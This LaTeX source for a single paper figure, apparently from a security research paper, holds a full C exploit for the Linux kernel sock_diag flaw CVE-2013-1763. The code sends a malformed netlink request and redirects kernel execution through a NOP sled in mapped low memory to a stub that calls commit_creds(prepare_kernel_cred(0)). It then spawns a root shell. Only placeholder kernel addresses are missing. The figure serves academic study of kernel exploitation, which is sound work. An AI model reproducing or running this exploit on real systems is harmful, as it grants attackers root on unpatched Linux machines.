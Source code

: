 \documentclass[10pt]{llncs}
\begin{document}
\section{Exploit} \label{sec:exploit}
\begin{figure}[t!]
  \begin{center}
    \begin{tabular}{c}
\begin{lstlisting}
int (*commit_creds)(unsigned long) = (void *)COMMIT_CREDS;
unsigned long (*prepare_kernel_cred)(unsigned long) =
    (void *)PREPARE_KERNEL_CRED;

int kernel_code() { (*@\label{line:kcode1}@*)
	commit_creds(prepare_kernel_cred(0));
	return -1;
} (*@\label{line:kcode2}@*)

int main() {
	unsigned long mmap_start = 0x10000, mmap_size =	0x120000;(*@\label{line:mmap_vars}@*)
	char jump[] = "\x55\x89\xe5\xb8\x11\x11\x11\x11\xff\xd0\x5d\xc3";(*@\label{line:jump_code}@*)
	unsigned long *jump4 = &jump[4];
	struct {
		struct nlmsghdr nlh;
		struct unix_diag_req r;
	} req;
	int fd;

	if ((fd=socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG))<0) (*@\label{line:socket}@*)
		return 1;

	memset(&req, 0, sizeof(req)); (*@\label{line:cr1}@*)
	req.nlh.nlmsg_len = sizeof(req);
	req.nlh.nlmsg_type = SOCK_DIAG_BY_FAMILY;
	req.nlh.nlmsg_flags = NLM_F_ROOT|NLM_F_MATCH|NLM_F_REQUEST;
	req.nlh.nlmsg_seq = 123456;
	req.r.sdiag_family = 81;(*@\label{line:cr2}@*)

	if (mmap((void *)mmap_start, mmap_size, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_FIXED | MAP_ANONYMOUS, -1, 0) == MAP_FAILED)(*@\label{line:target1}@*)
		return 1;

	*jump4 = (unsigned long)kernel_code;(*@\label{line:patch_kc}@*)
	memset((void*)mmap_start, 0x90, mmap_size);
	memcpy((void*)mmap_start + mmap_size - sizeof(jump), jump, sizeof(jump));(*@\label{line:target2}@*)

	if (send(fd, &req, sizeof(req), 0) < 0) (*@\label{line:send}@*)
		return 1;

	if(!getuid())
		system("/bin/sh"); (*@\label{line:shell}@*)
}
\end{lstlisting}
    \end{tabular}
  \end{center}
  \caption{Exploit for the CVE-2013-1763 error.}
  \label{fig:exploit}
\end{figure}
\end{document}
